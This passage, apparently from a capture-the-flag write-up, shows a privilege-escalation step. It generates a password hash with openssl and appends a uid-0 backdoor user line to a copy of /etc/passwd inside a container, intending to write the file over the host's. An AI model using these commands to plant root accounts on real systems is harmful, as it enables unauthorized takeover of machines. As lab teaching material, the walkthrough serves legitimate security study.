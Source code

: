#### Shell

I’ll use the file write to add another root user to the `/etc/passwd` file.
I’ll generate a hash for the password “0xdf”:

    
    
    oxdf@hacky$ openssl passwd -1 0xdf
    $1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0
    

Now I’ll create a `passwd` line from that, with the user name oxdf, the
password hash from above, the user and group ids of 0:

    
    
    oxdf:$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0:0:0:pwned:/root:/bin/bash
    

I’ll recreate the `passwd` file from the host (read by saul) in the container,
with the extra line on the end:

    
    
    root@c150397ccd63:~# echo 'root:x:0:0:root:/root:/bin/bash
    > daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                 
    > bin:x:2:2:bin:/bin:/usr/sbin/nologin            
    > sys:x:3:3:sys:/dev:/usr/sbin/nologin       
    > sync:x:4:65534:sync:/bin:/bin/sync                             
    > games:x:5:60:games:/usr/games:/usr/sbin/nologin
    > man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    > lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    > mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    > news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    > uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    > proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    > backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    > list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    > irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    > gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    > nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    > systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    > systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    > systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    > messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    > syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    > _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    > tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    > uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    > tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    > landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    > pollinate:x:110:1::/var/cache/pollinate:/bin/false
    > usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    > sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
    > systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    > lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    > saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash' > passwd
    root@c150397ccd63:~# echo 'oxdf:$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0:0:0:pwned:/root:/bin/bash' >> passwd  
    